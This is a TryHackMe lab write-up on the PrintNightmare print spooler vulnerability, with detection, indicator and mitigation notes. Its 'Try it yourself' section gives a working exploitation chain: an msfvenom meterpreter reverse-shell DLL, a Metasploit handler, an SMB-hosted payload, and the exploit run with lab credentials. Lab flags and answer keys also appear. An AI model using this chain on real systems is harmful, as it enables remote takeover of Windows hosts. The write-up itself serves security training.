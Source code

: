 # PrintNightmare - Medium

1. [Windows Print Spooler Service](#windows-print-spooler-service)
2. [Remote Code Execution Vulnerability](#remote-code-execution-vulnerability)
3. [Try it yourself](#try-it-yourself)
4. [Indicators of Compromise](#indicators-of-compromise)
5. [Detection: Windows Event Logs](#detection-windows-event-logs)
6. [Detection: Packet Analysis](#detection-packet-analysis)
7. [Mitigation: Disable Print Spooler](#mitigation-disable-print-spooler)

## Windows Print Spooler Service

* Print spooler service - manages printing processes like queueing and scheduling; enabled by default in all Windows clients & servers.

* DCs (Domain Controllers) use print spooler service for printer pruning (removing printers that are not used anymore but are objects in AD).

```markdown
1. Where would you enable or disable Print Spooler Service? - Services
```

## Remote Code Execution Vulnerability

* CVE-2021-34527 (PrintNightmare) - RCE vulnerability; attacker can remotely inject malicious DLL & exploit it to get SYSTEM privileges.

* CVE-2021-1675 - another exploit related to print spooler; attacker needs direct/local access to machine.

```markdown
1. Provide the CVE of the Windows Print Spooler Remote Code Execution Vulnerability that doesn't require local access to the machine. - CVE-2021-34527

2. What date was the CVE assigned for the vulnerability? - 07/02/2021
```

## Try it yourself

```shell
#follow initial setup from TryHackMe
cd Desktop/pn

git clone https://github.com/tryhackme/CVE-2021-1675.git
#download exploit files

git clone https://github.com/tryhackme/impacket.git
#download impacket from THM repo

cd impacket

#install impacket
python setup.py install

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.29.147 LPORT=4444 -f dll -o ~/Desktop/share/malicious.dll
#create malicious dll

msfconsole -q

use exploit/multi/handler

set payload windows/x64/meterpreter/reverse_tcp

set LHOST 10.10.29.147

set LPORT 4444

run -j
#run exploit as a job

jobs
#it is running in background

#now host malicious dll in SMB share on attacker machine
smbserver.py share /root/Desktop/share/ -smb2support
#share to be accessed is at \\10.10.29.147\share\malicious.dll

rpcdump.py @10.10.102.16 | egrep 'MS-RPRN|MS-PAR'
#check if victim fits criteria for exploit

cd CVE-2021-1675/

python CVE-2021-1675.py Finance-01.THMdepartment.local/sjohnston:mindheartbeauty76@10.10.102.16 '\\10.10.29.147\share\malicious.dll'
#run exploit
#Finance-01.THMdepartment.local is name of DC and domain
#along with credentials of low privilege Windows user

#now we have a Meterpreter shell
cat C:\\Users\\Administrator\\Desktop\\flag.txt
```

```markdown
1. What is the flag residing on the Administrator's Desktop? - THM{SiGBQPMkSvejvmQNEL}
```

## Indicators of Compromise

* Search for ```spoolsv.exe``` process launching ```rundll32.exe``` as a child process without any command-line arguments.

* Monitor for DLLs dropped in these folders - ```%WINDIR%\system32\spool\drivers\x64\3\``` and ```%WINDIR%\system32\spool\drivers\x64\3\Old\```

* Check for suspicious ```spoolsv.exe``` child processes.

* Log registry changes and check for print driver 'QMS 810'.

* Search for public DLLs, such as ```MyExploit.dll```, ```evil.dll```, ```addCube.dll```, ```mimilib.dll```, etc.

```markdown
1. Provide the first folder path where you would likely find the dropped DLL payload. - C:\Windows\System32\spool\drivers\x64\3

2. Provide the function that is used to install printer drivers. - pcAddPrinterDriverEx()

3. What tool can the attacker use to scan for vulnerable print servers? - rpcdump.py
```

## Detection: Windows Event Logs

* Logs related to Print Spooler activity are:

  * Microsoft-Windows-PrintService/Admin
  * Microsoft-Windows-PrintService/Operational

* Some events of interest can be viewed in Event Viewer in:

  * Microsoft-Windows-PrintService
  * Microsoft-Windows-SMBClient
  * Windows System
  * Microsoft-Windows-Sysmon

```markdown
1. Provide the name of the dropped DLL, including the error code. - svch0st.dll,0x45A

2. Provide the event log name and the event ID that detected the dropped DLL. - Microsoft-Windows-PrintService/Admin,808

3. Find the source name and the event ID when the Print Spooler Service stopped unexpectedly and how many times was this event logged? - Service Control Manager,7031,1

4. Provide the log name, event ID, and destination port. - Microsoft-Windows-Sysmon/Operational,3,4747

5. Provide the attacker's IP address and the hostname. - 10.10.210.100,ip-10-10-210-100.eu-west-1.compute.internal

6. Provide the full path to the dropped DLL and the earliest creation time in UTC. - C:\Windows\System32\spool\drivers\x64\3\New\svch0st.dll,2021-08-13 17:33:37.282
```

## Detection: Packet Analysis

```markdown
1. What is the host name of the domain controller? - WIN-1O0UJBNP9G7

2. What is the local domain? - printnightmare.local

3. What user account was utilized to exploit the vulnerability? - lowprivlarry

4. What was the malicious DLL used in the exploit? - letmein.dll

5. What was the attacker's IP address? - 10.10.124.236

6. What was the UNC path where the malicious DLL was hosted? - \\10.10.124.236\sharez

7. What was the associated protocol? - SMB3
```

## Mitigation: Disable Print Spooler

* Check if Print Spooler service is running:

```ps
Get-Service -Name Spooler
```

* Disable Print Spooler service:

```ps
Stop-Service -Name Spooler -Force

Set-Service -Name Spooler -StartupType Disabled
```

* If print spooler service cannot be disabled, disable inbound remote printing through Group Policy.

```markdown
1. Provide two ways to manually disable the Print Spooler Service. - PowerShell, Group Policy

2. Where can you disable the Print Spooler Service in Group Policy? - Computer Configuration / Administrative Templates / Printers

3. Provide the command in PowerShell to detect if Print Spooler Service is enabled and running. - Get-Service -Name Spooler
```
